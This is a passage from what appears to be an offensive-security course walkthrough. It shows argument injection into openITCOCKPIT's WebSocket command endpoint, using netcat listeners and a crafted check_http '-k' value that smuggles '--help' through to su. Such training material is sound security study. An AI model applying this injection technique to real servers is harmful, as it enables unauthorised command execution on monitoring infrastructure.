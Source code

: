 kali@kali:~$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [192.168.119.120] from (UNKNOWN) [192.168.121.129] 34552
GET / HTTP/1.1
User-Agent: check_http/v2.1.1 (monitoring-plugins 2.1.1)
Connection: close
Host: string2":8080
"string1
Listing 76 - Interesting connection back with double quote

We notice that the first quote is escaped and sent and the second part of the header is included in the Host header. That is not what we were expecting. Now let's try using a single quote (making the argument -k 'string1 string2').

kali@kali:~$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [192.168.119.120] from (UNKNOWN) [192.168.121.129] 34578
GET / HTTP/1.0
User-Agent: check_http/v2.1.1 (monitoring-plugins 2.1.1)
Connection: close
string1
Listing 77 - Viewing connection back with single quote

Sending a single quote returned just a single "string1" header but without any quotes.

To recap, sending a string with double quotes escapes the double quote and the value after the space is treated as a parameter to the Host header. When we send a single quote, the quote is not escaped and the second string is not included at all. An inconsistency of this type generally suggests that we are injecting an unexpected character. If that is the case, when using a single quote we might be injecting "string2" as another command.

To test this theory, we will replace "string2" with "--help". If we get the help message of check_http, we know that we are not injecting into another command and that we have instead discovered a strange bug. However, if we receive no help message or a help message from a different command, we know that we might have discovered an escape.

kali@kali:~/scripts$ python3 wsclient.py --url wss://openitcockpit/sudo_server -k 1fea123e07f730f76e661bced33a94152378611e
[+] Connected!
./check_http -I 192.168.119.120 -p 8080 -k 'string1 --help'     
Usage: su [options] [LOGIN]

Options:
  -c, --command COMMAND         pass COMMAND to the invoked shell
  -h, --help                    display this help message and exit
  -, -l, --login                make the shell a login shell
  -m, -p,
  --preserve-environment        do not reset environment variables, and
                                keep the same shell
  -s, --shell SHELL             use SHELL instead of the default in passwd
Listing 78 - Injecting help argument

The output reveals the help output from the su command. Excellent!

Let's pause here and try to analyze what might be going on. The WebSocket connection takes input that is expected to be executed. However, the developers did not want to allow users to run arbitrary commands. Instead, they whitelisted only certain commands (the ls command and the commands in the current directory). Given the output when we appended "--help", we can also assume that they wanted to run the commands as a certain user, so they used su to accomplish that. We can speculate that the command looks something like this:
